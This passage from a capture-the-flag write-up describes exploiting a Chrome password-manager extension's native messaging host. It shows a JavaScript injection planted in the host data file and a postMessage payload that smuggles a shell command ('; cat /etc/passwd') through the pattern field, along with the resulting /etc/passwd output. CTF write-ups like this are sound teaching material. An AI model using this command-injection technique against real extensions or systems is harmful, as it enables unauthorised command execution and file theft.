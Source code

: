 
Remember the challenge gave us an endpoint (http://challenge.acictf.com:62110/dovisit) where we could give the site admin a website to checkout and validate the plugin. We are assuming the admin is running the plugin in their browser, just like we are. So now the theory is that if we control that website and the code that loads on that website, we can potentially control what calls are made to the plugin, as well as the parameters in the message.

#### Approach
1. Test get_entries function for executing commands.
2. Build payload
3. Setup external listener and website carrying payload
4. Get website admin to give us the flag


#### 1. Test get_entries() function for executing commands.

To start, let's prove that we can execute javascript within the `data/challenge.acictf.com\:62110` file. Go to the plugin's `NativeMessagingHosts` and edit the host file.

```
$ cd ~/.config/google-chrome/NativeMessagingHosts
```
Edit the host file.
```
$ vim data/challenge.acictf.com\:62110
username=console.log('hello world'),password="test"
```

Re-Open your chrome browser so we reload the plugin and browse to `http://challenge.acictf.com:62110/example` and then open the plugin `chrome-extension://cegaaaajnnledpnkmnjenhbakdijgcjo/manager.html`. Right-Click > Inspect this page. Go to the `console` tab and you should see `hello world` in the output.

Ok. Let's test that we can use the plugin to access a file in the filesystem. This time, edit your `data/challenge.acictf.com\:62110` file with a payload that outputs the contents of a file into a local file we will create.

```
$ vim data/challenge.acictf.com\:62110
username=port.postMessage({type: 'entries',pattern: '; cat /etc/passwd >> output.txt'}),password="test"
```

Let's explain the above inject. This is where knowledge of [Message Passing](https://developer.chrome.com/extensions/messaging) in chrome extensions comes in handy. Read the previous link. `port.postMessage({})` enables Communication between extensions and their content scripts. Here we control the `type` by calling `entries`. Then we break into the message and start our inject with `';`. Remember when we discussed `subprocess` above? Well this is where it is executing our shell command `cat`. We simply `cat` the contents of `/etc/passwd` into another file, which should be outputted within the plugin path.

Go ahead and Re-Open your chrome browser and browse to `http://challenge.acictf.com:62110/example` and then open the plugin `chrome-extension://cegaaaajnnledpnkmnjenhbakdijgcjo/manager.html`. Now check to see if there is a `output.txt` file in the `NativeMessagingHosts` directory.

```
$ cat output.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```